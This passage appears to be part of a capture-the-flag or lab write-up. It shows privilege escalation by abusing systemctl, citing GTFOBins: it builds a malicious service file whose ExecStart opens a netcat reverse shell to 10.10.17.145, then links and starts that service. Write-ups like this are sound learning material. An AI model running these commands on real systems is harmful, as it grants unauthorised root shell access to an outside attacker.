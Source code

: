- [(GTFObins)systemctl)](https://gtfobins.github.io/gtfobins/systemctl/)
![](./IMG/90.png)

> I follow the instruction to create a hack service 

```
echo "[Service)
Type=oneshot
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.17.145 1336'
[Install)
WantedBy=multi-user.target" > hack4.service
```
> Execute the following command 

```
systemctl link /home/pepper/hack4.service
systemctl start hack4
```

![](./IMG/89.png)
